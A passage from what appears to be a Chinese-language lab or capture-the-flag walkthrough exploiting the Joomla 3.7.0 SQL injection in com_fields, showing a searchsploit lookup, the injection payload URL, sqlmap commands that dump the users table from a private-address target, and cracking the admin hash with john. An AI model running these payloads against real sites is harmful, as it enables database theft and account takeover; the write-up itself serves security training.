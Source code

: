 无奈只能去searchsploit搜索利用方法

直接`searchsploit joomla`返回的结果太多,我们可以直接指定版本搜索

```
searchsploit joomla 3.7.0
```

![image-20211112123410726](images/13.png)

看一下利用方法

```
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```

![image-20211112123519534](images/14.png)

给出了payload

```
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

当然网上搜索这个3.7.0的sql注入漏洞也能看到payload,告诉我们还可以利用sqlmap跑,也给出了payload

```
sqlmap -u "http://192.168.3.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

![image-20211112124322678](images/15.png)

然后爆表

![image-20211112124555349](images/16.png)

进入#__users表

```
sqlmap -u "http://192.168.3.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' --dump
```

需要注意的是，这里我们要去掉`--batch`参数，不让它执行默认的选项，因为我们需要进行一些选择

![image-20211112125128354](images/17.png)

拿到admin的password,但是这个加密了的password

通john进行密码爆破

```
vim 1.txt
john 1.txt --show 	#show参数可要可不要
```

![image-20211112125515630](images/18.png)
